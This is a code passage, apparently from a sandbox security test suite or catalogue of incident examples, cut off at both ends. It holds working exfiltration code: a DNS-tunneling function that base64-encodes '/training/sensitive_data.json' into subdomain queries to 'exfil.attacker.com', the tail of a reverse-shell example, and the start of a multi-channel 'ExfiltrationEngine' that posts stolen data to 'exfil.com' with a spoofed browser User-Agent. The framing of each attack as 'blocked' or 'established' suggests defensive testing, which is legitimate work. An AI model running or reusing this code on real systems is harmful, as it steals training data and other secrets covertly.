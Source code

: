 ```python
    print("Reverse shell established")

except Exception as e:
    print(f"Reverse shell blocked: {e}")

# Example 3: DNS tunneling exfiltration (sophistication level 9)
# Incident SEC-2025-0287, most sophisticated attack observed
import socket
import base64

def exfiltrate_via_dns(data, domain='exfil.attacker.com'):
    """
    Covert data exfiltration via DNS queries.
    Encodes data in subdomain labels of DNS queries.
    """
    # Base64 encode and chunk data
    encoded = base64.b64encode(data).decode('ascii')
    chunk_size = 63  # Max DNS label length

    chunks = [encoded[i:i+chunk_size]
              for i in range(0, len(encoded), chunk_size)]

    # Send each chunk as DNS query
    for idx, chunk in enumerate(chunks):
        subdomain = f"{idx}.{chunk}.{domain}"
        try:
            # DNS query will leak data in server logs
            socket.gethostbyname(subdomain)
        except:
            pass  # Expected to fail, exfiltration in the query itself

try:
    # Steal sensitive training data
    with open('/training/sensitive_data.json', 'r') as f:
        secret_data = f.read().encode('utf-8')

    exfiltrate_via_dns(secret_data)
    print("Data successfully exfiltrated via DNS")

except Exception as e:
    print(f"DNS exfiltration blocked: {e}")

# Example 4: Multi-protocol fallback exfiltration (sophistication level 8)
# Incident SEC-2025-0312, attempted multiple protocols sequentially
import socket
import urllib.request
import smtplib

class ExfiltrationEngine:
    """Try multiple exfiltration channels until one succeeds"""

    def __init__(self, data_to_steal):
        self.data = data_to_steal

    def try_http(self):
        """Attempt HTTP exfiltration"""
        try:
            req = urllib.request.Request(
                'http://exfil.com/upload',
                data=self.data.encode('utf-8'),
                headers={'User-Agent': 'Mozilla/5.0'}
            )
            urllib.request.urlopen(req, timeout=5)
```